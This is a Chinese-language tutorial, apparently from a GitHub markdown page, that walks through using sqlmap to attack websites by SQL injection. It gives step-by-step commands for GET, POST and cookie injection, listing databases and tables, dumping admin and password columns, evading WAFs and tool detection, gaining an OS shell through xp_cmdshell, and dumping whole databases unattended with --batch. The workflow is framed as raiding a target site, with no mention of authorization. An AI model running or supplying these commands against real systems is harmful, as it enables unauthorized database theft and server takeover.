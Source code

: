 Sqlmap
======

注入分法不同，种类不同，来个简单的分类：<br/>

        1.get型:        sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx"
        2.post型:       sqlmap -u "http://xxx.xx.xxx/xx.xxx" --data="xxxx=xxxx&xxxx=xxx"
        3.cookie类注入: sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx" --cookie="xxx=xxx&xxx=xxx" --level=2


需要数据库好：<br/>

        --dbs
得到数据库名称xxx，需要表： <br/>

        -D xxx --tables
得到表名xxxx，需要段：<br/>

        -D xxx -T xxxx --columns
得到段内有admin，password，需要值：<br/>

        -D xxx -T xxxx -C "admin,password" --dump

那么我们来理解一下，-D -T -C 是干吗的，当然就是知道其名称，指定使用它。<br/>
--dbs --tables --columns 是干吗的，当然就是不知道名称，列出来呗<br/>
--dump 那自然就是字面意思，类似于导出数据的行为<br/>
其实注入有了上面这几个命令，妥妥的够用了，不过还需要绕waf：<br/>

        --tamper=""
注入被识别出来是工具，断开咋办：<br/>

        --user-agent=""


好，跑数据库就是这么简单，于是呢来一个稍微有点干货的例子：<br/>
*http://www.xxx.com/login.asp*
有post注入,但是我不想出去拷贝post数据，很麻烦，我想让sqlmap自动跑post注入  


        sqlmap -u "http://www.xxx.com/login.asp" --forms
很好，上面的命令成功的帮我跑了post注入，并且找到了post的注入点jjj=123，于是我用的命令看看数据库<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj --dbs
顺便看看当前用户是不是dba<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj --is-dba
        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -a 
用了上面的命令 -a能得到什么呢：自己去看帮助吧。<br/>
帮你筛选了一下，-a下面的那些命令是用来看用户，看主机，看权限的。<br/>
我发现权限还是挺高的，同时呢，我跑出来了数据库名称kkk<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -D kkk --tables
同时我找到了网站路径，然后我就又一次找到了sqlmap的牛逼的--os-xx系列命令，可以执行系统命令，同时还发现了牛逼的xpcmdshell<br/> 

        --os-shell
以及很多牛逼的文件操作命令<br/>

        --file-xx 
这些命令在需要用的时候使用就是了，会给你带来意想不到的惊喜<br/>
与此同时，我发现tables里面没有我想要的东西，我也找不到合适的内容，咋办呢，心一横，我决定把所有的数据库内容跑出来自己找，<br/>
于是我这么做：<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -D kkk --dump-all
然后牛逼的sqlmap就开始跑啊跑，然后紧接着我的蛋就碎了，尼玛，sqlmap一会就问你一次要不要破解密码<br/>
，要不要这个，要不要那个，我和我的小朋友们都想擦你妹夫，功夫不负有心人，我又看见了一个命令 <br/>

        --batch 
可以自动选择sqlmap默认选项，于是，我可以和我的小朋友们玩耍去了，再也不用看着sqlmap拖库了。<br/>



总结下来，帮助文档还是很重要的，多看看，总会有些收获：<br/>
为了避免各位看英文看到吐，大概总结下：<br/>
```
* Target:                               字面意思，目标，那么就是确定目标的
* Request:                              字面意思，请求，就是定义请求内容的，比如post数据，http头，cookie注入，http头污染等等
* Optimization：                        字面意思，调节性能，等等
* Injection:                            字面意思，注入的设置内容基本在这里，比如指定注入点，指定db，指定系统，等等
* Detection:                            基本就是用在确认注入范围，寻找注入点区域，这些
* Technique:                            基本用在确定注入手段，以及攻击方式
* Fingerprint:                          基本用在指纹识别，用的很少
* Enumeration:                          枚举信息，主要用在注入中，很重要，很常用
* Brute force:                          用来爆破，其实主要是枚举tables columns用的
* User-defined function injection:      现在只有udf提权，以及指定一些自己定义的sqlmap脚本用，高端使用，求大牛指点
* File system access:                   主要是文件读取，文件写入
* Operating system access:              主要用在对系统操作，例如os-shell 以及 后续的连接metasploit 实现后渗透攻击
* windows registry access:              基本就是注册表操作了
* General:                              字面意思，综合的内容，一些特殊的功能实现，我在这里
                                        找到了crawl batch这些非常好用的参数
* Miscellaneous:                        目测高端应用，还没怎么用过，求大神指教
```
